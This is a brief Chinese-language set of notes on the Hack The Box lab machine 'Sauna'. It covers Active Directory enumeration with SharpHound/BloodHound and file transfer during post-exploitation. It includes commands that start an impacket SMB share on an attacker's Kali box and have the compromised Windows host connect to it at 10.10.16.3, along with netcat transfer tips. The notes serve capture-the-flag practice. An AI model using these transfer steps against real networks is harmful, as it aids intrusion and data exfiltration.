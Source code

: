 ```yaml
---
description: SharpHound, BloodHound, Active Directory, ASREPRoasting,DCSync Attack
---
```


# Hack the box - Sauna

{% embed url="https://0xdf.gitlab.io/2020/07/18/htb-sauna.html#shell-as-fsmith" %}

注意事项

在使用sharphound收集AD信息时，不要使用kali自带的sharphound，需要从github上下载最新的bloodhound.exe.

{% embed url="https://0xdf.gitlab.io/2018/10/11/pwk-notes-post-exploitation-windows-file-transfers.html" %}

当需要从windows传送文件到kali上时，可以使用netcat。大致思路是在kali上下载好nc.exe，使用python3 -m http.server 这个指令启动一个临时的http服务器。在Windows上将nc.exe下载并使用nc.exe 和kali自带的netcat传送文件。

在使用python impacket中的smb模组时，用impacket-smbserver指令，而不是smbserver.py。当我在使用smbserver.py时，我的kali出现了鼠标光标变成十字状的情况。当使用impacket-smbserver时，需要加上-smb2support，windows net.exe不支持smb1。

```
# Kali Command:
sudo impacket-smbserver -smb2support smb samba_share
# smb 是 smb share 的名字，samba_share是本地文件夹的名字。

# Windows Command:
net use \\10.10.16.3\smb
cd \\10.10.16.3\smb # 将当前的文件夹转到smb
# 注意使用smb而不是samba_share作为Windows上smb share的名字
```

